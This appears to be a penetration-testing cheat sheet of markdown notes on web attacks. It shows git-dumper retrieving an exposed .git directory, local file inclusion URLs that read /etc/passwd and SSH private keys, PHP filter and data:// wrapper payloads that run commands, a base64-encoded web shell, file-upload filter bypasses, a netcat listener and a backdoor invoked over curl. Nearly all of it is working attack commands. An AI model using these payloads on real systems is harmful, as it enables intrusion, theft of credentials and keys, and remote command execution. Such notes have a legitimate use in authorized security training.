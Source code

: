 ## Git Exposed
```
python3 -m venv git-dumper-venv && source git-dumper-venv/bin/activate && pip install git-dumper 
git-dumper http://192.168.115.144/.git/ .
cd .git
git log
show 44a055daf7a0cd777f28f444c0d29dddjw9c9wj11
```

## Local File Inclusion - LFI
LFI And Directory Traversal
```
http://example.com/example/?view=../../../../../../../../../etc/passwd
http://example.com/example/?view=../../../../../../../../../home/<user>/.ssh/authorized_keys
http://example.com/example/?view=../../../../../../../../../home/<user>/.ssh/id_ecdsa
http://example.com/example/?view=../../../../../../../../../home/<user>/.ssh/id_rsa
```
```
http://example.com/example/?view=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
http://example.com/example/?view=%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/<user>/.ssh/authorized_keys
http://example.com/example/?view=%2e%2e/%2e%2e/%2e%2e/%2e%2e./home/<user>/.ssh/id_ecdsa
http://example.com/example/?view=%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/<user>/.ssh/id_rsa
```

### PHP Wrappers
Display Content
```
curl http://example.com/example/index.php?page=admin.php
curl http://example.com/example/index.php?page=php://filter/resource=admin.php
curl http://example.com/example/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
Code Execution
```
data:// wrapper is used to achieve code execution
data:// wrapper will not work in a default PHP installation. To exploit it, the allow_url_include setting needs to be enabled
curl "http://example.com/example/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"                             
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
output -> PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
curl "http://example.com/example/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
  
#### LFI + File Upload
```
Using Executable Files
PHP Code Execution
One method to bypass this filter is to change the file extension to a less-commonly used PHP file extension such as .phps or .php7. This may allow us to bypass simple filters that only check for the most common file extensions, .php and .phtml.

try Uppercase maybe they are not filtered .pHP
combine file upload with RFI
nc -nvlp 4444
setup python server 80
/usr/share/webshells/php/simple-backdoor.php
curl http://192.168.xx.<victim>/example/uploads/simple-backdoor.pHP?cmd=dir

PS>pwsh
```